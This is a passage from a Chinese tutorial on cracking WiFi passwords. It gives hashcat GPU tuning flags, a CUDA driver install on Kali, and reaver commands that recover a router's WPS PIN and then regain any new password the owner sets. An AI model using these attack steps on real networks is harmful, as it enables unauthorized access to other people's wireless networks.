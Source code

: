 该参数支持的值有1,8,40,80,160
```
--kernel-accel 160 可以让GPU发挥最大性能。
```

2） Gpu loops 负载微调

该参数支持的值的范围是8-1024（有些算法只支持到1000）。
```
--kernel-loops 1024 可以让GPU发挥最大性能。
```

3） Segment size 字典缓存大小

该参数是设置内存缓存的大小，作用是将字典放入内存缓存以加快字典破解速度，默认为 32MB，可以根据自身内存情况进行设置，当然是越大越块了。
```
--segment-size 512 可以提高大字典破解的速度。
```


### 掌法四：wifite 自动抓包输出 + hashcat 破解（Windows）

**（推荐此方法）**


### 掌法五：wifite 自动抓包输出 + hashcat 破解（Linux GPU）

linux安装GPU驱动，有点危险，弄不好就会翻车。
> [https://www.kali.org/docs/general-use/install-nvidia-drivers-on-kali-linux/](https://www.kali.org/docs/general-use/install-nvidia-drivers-on-kali-linux/)

但是我们可以直接安装 **CUDA toolkit**

```
apt install -y ocl-icd-libopencl1 nvidia-driver nvidia-cuda-toolkit
```

一键安装，绝不翻车。安装好了过后，重启一下。

`nvidia-smi`

`hashcat -I`

即可查看GPU信息

`hashcat -b`

进行算法测试，可以查看自己GPU的跑包的速度


### 掌法六：wifite 自动抓包输出 + reaver 破解（开启了WPS）

```
reaver -i wlan0mon -b D8:15:0D:D6:13:92 -S -d9 -t9 -vv
```

破解完成之后，查看并记录下 PIN 码和密码

获取到 PIN 码 后，以后即便路由器更换了密码，我们也可以很迅速地通过 PIN 码重新获得新密码。举例：

```
 reaver  -i  wlan0mon -b  xx:xx:xx:xx:xx:xx  -p 12345670
```
